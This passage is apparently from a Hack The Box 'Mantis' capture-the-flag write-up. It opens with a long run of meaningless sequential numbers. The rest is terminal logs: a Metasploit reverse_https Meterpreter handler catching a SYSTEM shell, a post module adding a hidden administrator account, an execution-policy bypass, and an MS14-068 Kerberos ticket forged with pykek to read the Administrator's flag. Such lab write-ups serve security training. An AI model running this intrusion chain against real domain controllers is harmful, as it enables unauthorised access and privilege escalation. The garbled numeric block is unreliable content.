65011933
65011934
65011935
65011936
65011937
65011938
65011939
65011940
65011941
65011942
65011943
65011944
65011945
65011946
65011947
65011948
65011949
65011950
65011951
65011952
65011953
65011954
65011955
65011956
65011957
65011958
65011959
65011960
65011961
65011962
65011963
65011964
65011965
65011966
65011967
65011968
65011969
65011970
65011971
65011972
65011973
65011974
65011975
65011976
65011977
65011978
65011979
65011980
65011981
65011982
65011983
65011984
65011985
65011986
65011987
65011988
65011989
65011990
65011991
65011992
65011993
65011994
65011995
65011996
65011997
65011998
65011999
65012000
65012001
65012002
65012003
65012004
65012005
65012006
65012007
65012008
65012009
65012010
65012011
65012012
65012013
65012014
65012015
65012016
65012017
65012018
65012019
65012020
65012021
65012022
65012023
65012024
65012025
65012026
65012027
65012028
65012029
65012030
65012031
65012032
65012033
65012034
65012035
65012036
65012037
65012038
65012039
65012040
65012041
65012042
65012043
65012044
65012045
65012046
65012047
65012048
65012049
65012050
65012051
65012052
65012053
65012054
65012055
65012056
65012057
65012058
65012059
65012060
65012061
65012062
65012063
65012064
65012065
65012066
65012067
65012068
65012069
65012070
65012071
65012072
65012073
65012074
65012075
65012076
65012077
65012078
65012079
65012080
65012081
65012082
65012083
65012084
65012085
65012086
65012087
65012088
65012089
65012090
428
```

```sh
root@kali:~/mantis/unicorn# msfconsole -r unicorn.rc


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v4.16.48-dev                         ]
+ -- --=[ 1749 exploits - 1002 auxiliary - 302 post       ]
+ -- --=[ 536 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing unicorn.rc for ERB directives.
resource (unicorn.rc)> use multi/handler
resource (unicorn.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
resource (unicorn.rc)> set LHOST 10.10.14.16
LHOST => 10.10.14.16
resource (unicorn.rc)> set LPORT 5566
LPORT => 5566
resource (unicorn.rc)> set ExitOnSession false
ExitOnSession => false
resource (unicorn.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (unicorn.rc)> exploit -j
[*] Exploit running as background job 0.
msf exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://10.10.14.16:5566
[*] https://10.10.14.16:5566 handling request from 10.10.10.52; (UUID: ignq3bvp) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.14.16:5566 handling request from 10.10.10.52; (UUID: ignq3bvp) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.16:5566 -> 10.10.10.52:60068) at 2018-05-28 13:56:44 -0400

msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MANTIS  10.10.14.16:5566 -> 10.10.10.52:60068 (10.10.10.52)

msf exploit(multi/handler) > search rdp
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                                           Disclosure Date  Rank       Description
   ----                                                           ---------------  ----       -----------
   auxiliary/admin/http/wp_custom_contact_forms                   2014-08-07       normal     WordPress custom-contact-forms Plugin SQL Upload
   auxiliary/admin/http/wp_easycart_privilege_escalation          2015-02-25       normal     WordPress WP EasyCart Plugin Privilege Escalation
   auxiliary/admin/http/wp_symposium_sql_injection                2015-08-18       normal     WordPress Symposium Plugin SQL Injection
   auxiliary/admin/http/wp_wplms_privilege_escalation             2015-02-09       normal     WordPress WPLMS Theme Privilege Escalation
   auxiliary/dos/http/ms15_034_ulonglongadd                                        normal     MS15-034 HTTP Protocol Stack Request Handling Denial-of-Service
   auxiliary/dos/http/wordpress_directory_traversal_dos                            normal     WordPress Traversal Directory DoS
   auxiliary/dos/http/wordpress_long_password_dos                 2014-11-20       normal     WordPress Long Password DoS
   auxiliary/dos/http/wordpress_xmlrpc_dos                        2014-08-06       normal     Wordpress XMLRPC DoS
   auxiliary/dos/windows/rdp/ms12_020_maxchannelids               2012-03-16       normal     MS12-020 Microsoft Remote Desktop Use-After-Free DoS
   auxiliary/gather/wp_all_in_one_migration_export                2015-03-19       normal     WordPress All-in-One Migration Export
   auxiliary/gather/wp_ultimate_csv_importer_user_extract         2015-02-02       normal     WordPress Ultimate CSV Importer User Table Extract
   auxiliary/gather/wp_w3_total_cache_hash_extract                                 normal     WordPress W3-Total-Cache Plugin 0.9.2.4 (or before) Username and Hash Extract
   auxiliary/scanner/http/ms15_034_http_sys_memory_dump                            normal     MS15-034 HTTP Protocol Stack Request Handling HTTP.SYS Memory Information Disclosure
   auxiliary/scanner/http/wordpress_content_injection             2017-02-01       normal     WordPress REST API Content Injection
   auxiliary/scanner/http/wordpress_cp_calendar_sqli              2015-03-03       normal     WordPress CP Multi-View Calendar Unauthenticated SQL Injection Scanner
   auxiliary/scanner/http/wordpress_ghost_scanner                                  normal     WordPress XMLRPC GHOST Vulnerability Scanner
   auxiliary/scanner/http/wordpress_login_enum                                     normal     WordPress Brute Force and User Enumeration Utility
   auxiliary/scanner/http/wordpress_multicall_creds                                normal     Wordpress XML-RPC system.multicall Credential Collector
   auxiliary/scanner/http/wordpress_pingback_access                                normal     Wordpress Pingback Locator
   auxiliary/scanner/http/wordpress_scanner                                        normal     Wordpress Scanner
   auxiliary/scanner/http/wordpress_xmlrpc_login                                   normal     Wordpress XML-RPC Username/Password Login Scanner
   auxiliary/scanner/http/wp_contus_video_gallery_sqli            2015-02-24       normal     WordPress Contus Video Gallery Unauthenticated SQL Injection Scanner
   auxiliary/scanner/http/wp_dukapress_file_read                                   normal     WordPress DukaPress Plugin File Read Vulnerability
   auxiliary/scanner/http/wp_gimedia_library_file_read                             normal     WordPress GI-Media Library Plugin Directory Traversal Vulnerability
   auxiliary/scanner/http/wp_mobile_pack_info_disclosure                           normal     WordPress Mobile Pack Information Disclosure Vulnerability
   auxiliary/scanner/http/wp_mobileedition_file_read                               normal     WordPress Mobile Edition File Read Vulnerability
   auxiliary/scanner/http/wp_nextgen_galley_file_read                              normal     WordPress NextGEN Gallery Directory Read Vulnerability
   auxiliary/scanner/http/wp_simple_backup_file_read                               normal     WordPress Simple Backup File Read Vulnerability
   auxiliary/scanner/http/wp_subscribe_comments_file_read                          normal     WordPress Subscribe Comments File Read Vulnerability
   auxiliary/scanner/kademlia/server_info                                          normal     Gather Kademlia Server Information
   auxiliary/scanner/rdp/ms12_020_check                                            normal     MS12-020 Microsoft Remote Desktop Checker
   auxiliary/scanner/rdp/rdp_scanner                                               normal     Identify endpoints speaking the Remote Desktop Protocol (RDP)
   exploit/linux/http/tr064_ntpserver_cmdinject                   2016-11-07       normal     Zyxel/Eir D1000 DSL Modem NewNTPServer Command Injection Over TR-064
   exploit/linux/misc/quest_pmmasterd_bof                         2017-04-09       normal     Quest Privilege Manager pmmasterd Buffer Overflow
   exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload  2016-05-04       excellent  WordPress Ninja Forms Unauthenticated File Upload
   exploit/multi/script/web_delivery                              2013-07-19       manual     Script Web Delivery
   exploit/multi/vnc/vnc_keyboard_exec                            2015-07-10       great      VNC Keyboard Remote Code Execution
   exploit/osx/local/rootpipe                                     2015-04-09       great      Apple OS X Rootpipe Privilege Escalation
   exploit/osx/local/rootpipe_entitlements                        2015-07-01       great      Apple OS X Entitlements Rootpipe Privilege Escalation
   exploit/unix/webapp/joomla_akeeba_unserialize                  2014-09-29       excellent  Joomla Akeeba Kickstart Unserialize Remote Code Execution
   exploit/unix/webapp/php_xmlrpc_eval                            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution
   exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  WordPress Admin Shell Upload
   exploit/unix/webapp/wp_advanced_custom_fields_exec             2012-11-14       excellent  WordPress Plugin Advanced Custom Fields Remote File Inclusion
   exploit/unix/webapp/wp_ajax_load_more_file_upload              2015-10-10       excellent  Wordpress Ajax Load More PHP Upload Vulnerability
   exploit/unix/webapp/wp_asset_manager_upload_exec               2012-05-26       excellent  WordPress Asset-Manager PHP File Upload Vulnerability
   exploit/unix/webapp/wp_creativecontactform_file_upload         2014-10-22       excellent  Wordpress Creative Contact Form Upload Vulnerability
   exploit/unix/webapp/wp_downloadmanager_upload                  2014-12-03       excellent  Wordpress Download Manager (download-manager) Unauthenticated File Upload
   exploit/unix/webapp/wp_easycart_unrestricted_file_upload       2015-01-08       excellent  WordPress WP EasyCart Unrestricted File Upload
   exploit/unix/webapp/wp_foxypress_upload                        2012-06-05       excellent  WordPress Plugin Foxypress uploadify.php Arbitrary Code Execution
   exploit/unix/webapp/wp_frontend_editor_file_upload             2012-07-04       excellent  Wordpress Front-end Editor File Upload
   exploit/unix/webapp/wp_google_document_embedder_exec           2013-01-03       normal     WordPress Plugin Google Document Embedder Arbitrary File Disclosure
   exploit/unix/webapp/wp_holding_pattern_file_upload             2015-02-11       excellent  WordPress Holding Pattern Theme Arbitrary File Upload
   exploit/unix/webapp/wp_inboundio_marketing_file_upload         2015-03-24       excellent  Wordpress InBoundio Marketing PHP Upload Vulnerability
   exploit/unix/webapp/wp_infusionsoft_upload                     2014-09-25       excellent  Wordpress InfusionSoft Upload Vulnerability
   exploit/unix/webapp/wp_lastpost_exec                           2005-08-09       excellent  WordPress cache_lastpostdate Arbitrary Code Execution
   exploit/unix/webapp/wp_mobile_detector_upload_execute          2016-05-31       excellent  WordPress WP Mobile Detector 3.5 Shell Upload
   exploit/unix/webapp/wp_nmediawebsite_file_upload               2015-04-12       excellent  Wordpress N-Media Website Contact Form Upload Vulnerability
   exploit/unix/webapp/wp_optimizepress_upload                    2013-11-29       excellent  WordPress OptimizePress Theme File Upload Vulnerability
   exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload  2014-11-11       excellent  WordPress Photo Gallery Unrestricted File Upload
   exploit/unix/webapp/wp_phpmailer_host_header                   2017-05-03       average    WordPress PHPMailer Host Header Command Injection
   exploit/unix/webapp/wp_pixabay_images_upload                   2015-01-19       excellent  WordPress Pixabay Images PHP Code Upload
   exploit/unix/webapp/wp_platform_exec                           2015-01-21       excellent  WordPress Platform Theme File Upload Vulnerability
   exploit/unix/webapp/wp_property_upload_exec                    2012-03-26       excellent  WordPress WP-Property PHP File Upload Vulnerability
   exploit/unix/webapp/wp_reflexgallery_file_upload               2012-12-30       excellent  Wordpress Reflex Gallery Upload Vulnerability
   exploit/unix/webapp/wp_revslider_upload_execute                2014-11-26       excellent  WordPress RevSlider File Upload and Execute Vulnerability
   exploit/unix/webapp/wp_slideshowgallery_upload                 2014-08-28       excellent  Wordpress SlideShow Gallery Authenticated File Upload
   exploit/unix/webapp/wp_symposium_shell_upload                  2014-12-11       excellent  WordPress WP Symposium 14.11 Shell Upload
   exploit/unix/webapp/wp_total_cache_exec                        2013-04-17       excellent  WordPress W3 Total Cache PHP Code Execution
   exploit/unix/webapp/wp_worktheflow_upload                      2015-03-14       excellent  Wordpress Work The Flow Upload Vulnerability
   exploit/unix/webapp/wp_wpshop_ecommerce_file_upload            2015-03-09       excellent  WordPress WPshop eCommerce Arbitrary File Upload Vulnerability
   exploit/unix/webapp/wp_wptouch_file_upload                     2014-07-14       excellent  WordPress WPTouch Authenticated File Upload
   exploit/unix/webapp/wp_wysija_newsletters_upload               2014-07-01       excellent  Wordpress MailPoet Newsletters (wysija-newsletters) Unauthenticated File Upload
   exploit/windows/browser/adobe_flashplayer_newfunction          2010-06-04       normal     Adobe Flash Player "newfunction" Invalid Pointer Use
   exploit/windows/fileformat/adobe_flashplayer_button            2010-10-28       normal     Adobe Flash Player "Button" Remote Code Execution
   exploit/windows/fileformat/adobe_flashplayer_newfunction       2010-06-04       normal     Adobe Flash Player "newfunction" Invalid Pointer Use
   exploit/windows/fileformat/cain_abel_4918_rdp                  2008-11-30       good       Cain and Abel RDP Buffer Overflow
   exploit/windows/fileformat/ms12_005                            2012-01-10       excellent  MS12-005 Microsoft Office ClickOnce Unsafe Object Package Handling Vulnerability
   exploit/windows/fileformat/winrar_name_spoofing                2009-09-28       excellent  WinRAR Filename Spoofing
   exploit/windows/fileformat/wireshark_packet_dect               2011-04-18       good       Wireshark packet-dect.c Stack Buffer Overflow (local)
   exploit/windows/ftp/easyftp_cwd_fixret                         2010-02-16       great      EasyFTP Server CWD Command Stack Buffer Overflow
   exploit/windows/http/sws_connection_bof                        2012-07-20       normal     Simple Web Server Connection Header Buffer Overflow
   post/multi/gather/remmina_creds                                                 normal     UNIX Gather Remmina Credentials
   post/windows/gather/credentials/mremote                                         normal     Windows Gather mRemote Saved Password Extraction
   post/windows/gather/credentials/razer_synapse                                   normal     Windows Gather Razer Synapse Password Extraction
   post/windows/gather/enum_termserv                                               normal     Windows Gather Terminal Server Client Connection Information Dumper
   post/windows/manage/enable_rdp                                                  normal     Windows Manage Enable Remote Desktop
   post/windows/manage/sticky_keys                                                 normal     Sticky Keys Persistance Module


msf exploit(multi/handler) > use post/windows/manage/enable_rdp
msf post(windows/manage/enable_rdp) > show info

       Name: Windows Manage Enable Remote Desktop
     Module: post/windows/manage/enable_rdp
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  Carlos Perez <carlos_perez@darkoperator.com>

Compatible session types:
  Meterpreter

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  ENABLE    true             no        Enable the RDP Service and Firewall Exception.
  FORWARD   false            no        Forward remote port 3389 to local Port.
  LPORT     3389             no        Local port to forward remote connection.
  PASSWORD                   no        Password for the user created.
  SESSION                    yes       The session to run this module on.
  USERNAME                   no        The username of the user to create.

Description:
  This module enables the Remote Desktop Service (RDP). It provides
  the options to create an account and configure it to be a member of
  the Local Administrators and Remote Desktop Users group. It can also
  forward the target's port 3389/tcp.

msf post(windows/manage/enable_rdp) > set USERNAME kan1shka9
USERNAME => kan1shka9
msf post(windows/manage/enable_rdp) > set PASSWORD Password12345!
PASSWORD => Password12345!
msf post(windows/manage/enable_rdp) > set SESSION 1
SESSION => 1
msf post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: kan1shka9 with Password: Password12345!
[*] 	Adding User: kan1shka9 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: kan1shka9 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20180528140432_default_10.10.10.52_host.windows.cle_527196.txt
[*] Post module execution completed
msf post(windows/manage/enable_rdp) >
```

```sh
root@kali:~/mantis# rdesktop -g 1400x800 10.10.10.52
Autoselected keyboard map en-us
ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Connection established using SSL.
WARNING: Remote desktop does not support colour depth 24; falling back to 16
```


```
.\kan1shka9
Password12345!
```




[`Sysmon`](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)

[`sysmon-config`](https://github.com/SwiftOnSecurity/sysmon-config)

```sh
root@kali:~/mantis/sysmon# ls -l
total 1528
-rw-r--r-- 1 root root 1464976 May 11 23:50 Sysmon64.exe
-rw-r--r-- 1 root root   95580 May 28 14:12 sysmonconfig-export.xml
root@kali:~/mantis/sysmon#
```

```sh
root@kali:~/mantis/sysmon# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.52 - - [28/May/2018 14:16:10] "GET / HTTP/1.1" 200 -
10.10.10.52 - - [28/May/2018 14:16:10] code 404, message File not found
10.10.10.52 - - [28/May/2018 14:16:10] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.52 - - [28/May/2018 14:16:28] "GET /Sysmon64.exe HTTP/1.1" 200 -
10.10.10.52 - - [28/May/2018 14:16:37] "GET /sysmonconfig-export.xml HTTP/1.1" 200 -
10.10.10.52 - - [28/May/2018 14:16:40] code 404, message File not found
10.10.10.52 - - [28/May/2018 14:16:40] "GET /favicon.ico HTTP/1.1" 404 -
```


```sh
C:\Windows\system32>cd ..\

C:\Windows>cd C:\Users\kan1shka9\Desktop

C:\Users\kan1shka9\Desktop>Sysmon64.exe -i


System Monitor v7.03 - System activity monitor
Copyright (C) 2014-2018 Mark Russinovich and Thomas Garnier
Sysinternals - www.sysinternals.com

Sysmon64 installed.
SysmonDrv installed.
Starting SysmonDrv.
SysmonDrv started.
Starting Sysmon64..
Sysmon64 started.

C:\Users\kan1shka9\Desktop>Sysmon64.exe -c sysmonconfig-export.xml


System Monitor v7.03 - System activity monitor
Copyright (C) 2014-2018 Mark Russinovich and Thomas Garnier
Sysinternals - www.sysinternals.com

Loading configuration file with schema version 4.00
Configuration file validated.
Configuration updated.


C:\Users\kan1shka9\Desktop>
```




[`Get Last Write Time and Class Name of Registry Keys`](https://gallery.technet.microsoft.com/scriptcenter/Get-Last-Write-Time-and-06dcf3fb)

```sh
root@kali:~/mantis# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.52 - - [28/May/2018 14:40:12] "GET / HTTP/1.1" 200 -
10.10.10.52 - - [28/May/2018 14:40:22] "GET /GetRegistryKeyLastWriteTimeAndClassName.zip HTTP/1.1" 200 -
```


```PowerShell
PS C:\Windows\system32> cd C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName
PS C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName> Set-ExecutionPolicy Bypass

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y
PS C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName>
PS C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName> Import-Module .\AddRegKeyMember_PSv2_and_higher.ps1
PS C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName> Get-Item HKLM:\System\CurrentControlSet\Services\IHXM | Add-RegKeyMember | Select Name,LastWriteTime

Name                                                        LastWriteTime
----                                                        -------------
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\IHXM   9/1/2017 1:00:12 PM


PS C:\Users\kan1shka9\Desktop\GetRegistryKeyLastWriteTimeAndClassName>
```

###### Forging a Kerberos Ticket MS14-068

- [`Knock and Pass: Kerberos Exploitation`](http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html)

```sh
root@kali:~/mantis# apt-get install krb5-user cifs-utils rdate
```

```sh
root@kali:~/mantis# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
10.10.10.52 	mantis htb.local htb mantis.htb.local

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/mantis#
```

```sh
root@kali:~/mantis# cat /etc/resolv.conf
# Generated by NetworkManager
nameserver 10.10.10.52
nameserver 192.168.1.1
root@kali:~/mantis#
```

```sh
root@kali:~/mantis# cd /etc/
root@kali:/etc# mv krb5.conf krb5.conf~
root@kali:/etc# nano krb5.conf
root@kali:/etc# cat krb5.conf
[libdefaults]
    default_realm = HTB.LOCAL

#Edit the realms entry as follows:
[realms]
    LAB.LOCAL = {
        kdc = mantis.htb.local:88
        admin_server = mantis.htb.local
        default_domain = HTB.LOCAL
    }

#Also edit the final section:
[domain_realm]
    .domain.internal = HTB.LOCAL
    domain.internal = HTB.LOCAL
root@kali:/etc#
```

```sh
root@kali:/etc# rdate -n mantis.htb.local
Mon May 28 15:03:08 EDT 2018
root@kali:/etc#
```

```sh
root@kali:/etc# kinit james
kinit: Cannot find KDC for realm "HTB.LOCAL" while getting initial credentials
root@kali:/etc#
```

```sh
root@kali:/etc# klist
klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@kali:/etc#
```

```sh
root@kali:/etc# smbclient -W HTB.LOCAL //MANTIS/c$ -k
WARNING: The "syslog" option is deprecated
SPNEGO: Could not find a suitable mechtype in NEG_TOKEN_INIT
session setup failed: NT_STATUS_INTERNAL_ERROR
root@kali:/etc#
```

```sh
root@kali:/etc# rpcclient -U james MANTIS
Enter WORKGROUP\james's password:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
rpcclient $> exit
root@kali:/etc#
```

[`ms14-068.py`](https://github.com/mubix/pykek)

```sh
root@kali:~/mantis# git clone https://github.com/mubix/pykek.git
Cloning into 'pykek'...
remote: Counting objects: 88, done.
remote: Total 88 (delta 0), reused 0 (delta 0), pack-reused 88
Unpacking objects: 100% (88/88), done.
root@kali:~/mantis# cd pykek/
```

```sh
root@kali:~/mantis/pykek# python ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d MANTIS
Password:
  [+] Building AS-REQ for MANTIS... Done!
  [+] Sending AS-REQ to MANTIS... Done!
  [+] Receiving AS-REP from MANTIS... Done!
  [+] Parsing AS-REP from MANTIS... Done!
  [+] Building TGS-REQ for MANTIS... Done!
  [+] Sending TGS-REQ to MANTIS... Done!
  [+] Receiving TGS-REP from MANTIS... Done!
  [+] Parsing TGS-REP from MANTIS... Done!
  [+] Creating ccache file 'TGT_james@HTB.LOCAL.ccache'... Done!
root@kali:~/mantis/pykek#
```

```sh
root@kali:~/mantis/pykek# ls
kek  ms14-068.py  pyasn1  README.md  TGT_james@HTB.LOCAL.ccache
root@kali:~/mantis/pykek#
root@kali:~/mantis/pykek# klist
klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@kali:~/mantis/pykek#
root@kali:~/mantis/pykek# mv TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_0
root@kali:~/mantis/pykek#
```

```sh
root@kali:~/mantis/pykek# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: james@HTB.LOCAL

Valid starting       Expires              Service principal
05/28/2018 15:25:33  05/29/2018 01:25:32  krbtgt/HTB.LOCAL@HTB.LOCAL
	renew until 06/04/2018 15:25:32
root@kali:~/mantis/pykek#
```

```sh
root@kali:~/mantis/pykek# smbclient -W HTB.LOCAL //MANTIS/c$ -k
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Mon May 28 14:05:10 2018
  Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
  inetpub                             D        0  Fri Sep  1 09:41:09 2017
  pagefile.sys                      AHS 2147016704  Sun May 27 22:22:46 2018
  PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
  Program Files                      DR        0  Sat Dec 23 22:28:26 2017
  Program Files (x86)                DR        0  Fri Sep  1 14:28:51 2017
  ProgramData                        DH        0  Fri Sep  1 09:16:24 2017
  Recovery                          DHS        0  Fri Sep  1 01:39:12 2017
  System Volume Information         DHS        0  Thu Aug 31 20:02:33 2017
  Users                              DR        0  Mon May 28 14:05:08 2018
  Windows                             D        0  Mon May 28 14:20:58 2018

		5480959 blocks of size 4096. 273845 blocks available
smb: \> cd Users
smb: \Users\> dir
  .                                  DR        0  Mon May 28 14:05:08 2018
  ..                                 DR        0  Mon May 28 14:05:08 2018
  Administrator                       D        0  Fri Sep  1 01:39:25 2017
  All Users                         DHS        0  Tue Jul 14 01:06:44 2009
  Classic .NET AppPool                D        0  Fri Sep  1 09:02:48 2017
  Default                           DHR        0  Tue Jul 14 02:29:45 2009
  Default User                      DHS        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  james                               D        0  Fri Sep  1 10:19:03 2017
  kan1shka9                           D        0  Mon May 28 14:05:10 2018
  MSSQL$SQLEXPRESS                    D        0  Fri Sep  1 09:15:26 2017
  Public                             DR        0  Tue Jul 14 00:57:55 2009

		5480959 blocks of size 4096. 273845 blocks available
smb: \Users\> cd Administrator
smb: \Users\Administrator\> cd Desktop
smb: \Users\Administrator\Desktop\> dir
  .                                  DR        0  Fri Sep  1 14:10:39 2017
  ..                                 DR        0  Fri Sep  1 14:10:39 2017
  desktop.ini                       AHS      282  Thu Aug 31 21:27:05 2017
  root.txt                           AR       32  Fri Sep  1 10:16:10 2017

		5480959 blocks of size 4096. 273845 blocks available
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Users\Administrator\Desktop\>
```

```sh
root@kali:~/mantis/pykek# cat root.txt
209dc756ee5c09a9967540fe18d15567
root@kali:~/mantis/pykek#
```

```sh
root@kali:~/mantis/pykek# locate goldenPac
/usr/share/doc/python-impacket/examples/goldenPac.py
root@kali:~/mantis/pykek#
```

```sh
root@kali:/usr/share/doc/python-impacket/examples# python goldenPac.py HTB.LOCAL/James@Mantis.htb.local
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[-] PyAsn1Error('NamedTypes can cast only scalar values',)
root@kali:/usr/share/doc/python-impacket/examples#
```